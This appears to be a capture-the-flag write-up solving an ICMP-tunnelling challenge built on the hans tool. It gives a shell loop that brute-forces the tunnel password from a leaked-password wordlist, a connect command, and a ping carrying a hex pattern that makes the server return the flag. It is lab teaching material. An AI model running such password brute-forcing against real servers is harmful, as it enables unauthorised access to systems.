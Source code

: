 # Solution

1. Realize the server is using `hans` software for tunneling over ICMP. One can easily found that by googling "hans icmp".

2. How to find a password:

Option 1. Based on [hans source code](https://github.com/friedrich/hans/blob/master/src/auth.cpp#L30), crack the password. See the last lines of [solution.py](solution.py)

Option 2. Brute-force:

```
for PASSWORD in $(<xato-net-10-million-passwords-100.txt); do echo "### $PASSWORD" ; sudo ../src/bin/hans -p "$PASSWORD" -c "$SERVER_IP" -f -v ; done
```

3. Connect with found password

```
./hans -p "$PASSWORD" -c "$SERVER_IP" -f -v
```


4. Do the same thing as in PCAP capture (send special pattern)

```
>>> s='pleasegivemeflag'
>>> print(''.join([hex(ord(c)).replace('0x','') for c in s]))
706c65617365676976656d65666c6167

ping 192.168.18.1 -p 706c65617365676976656d65666c6167
```

5. Observe the flag in an ICMP response payload.
